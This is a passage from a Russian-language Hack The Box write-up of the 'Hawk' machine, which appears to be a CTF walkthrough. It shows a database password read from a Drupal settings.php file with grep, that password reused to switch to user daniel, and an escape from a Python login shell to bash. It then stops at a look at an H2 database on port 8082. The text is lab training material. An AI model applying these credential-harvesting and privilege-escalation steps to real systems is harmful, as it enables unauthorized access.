 ## PrivEsc: www-data → daniel (Password Reuse)
После небольшой прогулки по системе мое внимание привлек файл с настройками CMS `/var/www/html/sites/default/settings.php`. Поищем в нем пароли:
```text
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep -v '*' | grep -n password
11:      'password' => 'drupal4hawk',
76:# $conf['proxy_password'] = '';
```

Попробуем авторизоваться под юзером `daniel` с паролем `drupal4hawk`:
```text
www-data@hawk:/var/www/html/sites/default$ su daniel
Password: drupal4hawk
Python 3.6.5 (default, Apr  1 2018, 05:46:30)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

Успешно! Только вот Python в качестве login-шелла? Странный выбор, ну да ладно, выбраться в bash отсюда так же легко, как:
```text
>>> import os
>>> os.system('bash')
daniel@hawk:/var/www/html/sites/default$ cd
daniel@hawk:~$ pwd
/home/daniel
```
```text
daniel@hawk:~$ whoami
daniel
daniel@hawk:~$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
```

В поисках следующего PrivEsc'а посмотрим на запущенные процессы:
```text
daniel@hawk:~$ ps auxww
...
root        794  0.0  0.0   4628   872 ?        Ss   Dec07   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root        795  0.1 13.7 2351068 135272 ?      Sl   Dec07   1:34 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
...
```

И вспомним, что мы еще не смотрели 8082-й порт СУБД H2, найденный nmap'ом. Исправим это упущение.

# Web — Порт 8082
Перейдя по `http://10.10.10.102:8082` нас ждет сообщение:

[![port8082-browser-1.png]({{ "/assets/images/htb/hawk/port8082-browser-1.png" | relative_url }})]({{ "/assets/images/htb/hawk/port8082-browser-1.png" | relative_url }})
{: .center-image}
